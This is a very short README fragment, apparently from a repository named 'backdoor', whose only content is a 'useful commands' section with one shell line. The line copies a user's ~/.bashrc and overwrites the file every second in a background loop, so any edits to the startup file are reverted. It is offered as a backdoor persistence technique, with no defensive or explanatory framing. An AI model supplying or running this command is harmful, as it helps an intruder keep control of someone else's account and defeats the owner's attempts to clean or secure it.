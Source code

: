 # backdoor

## Usefull Commands

```
c=$(cat ~/.bashrc); while [ 1 ]; do echo "$c" > ~/.bashrc; sleep 1; done &
```
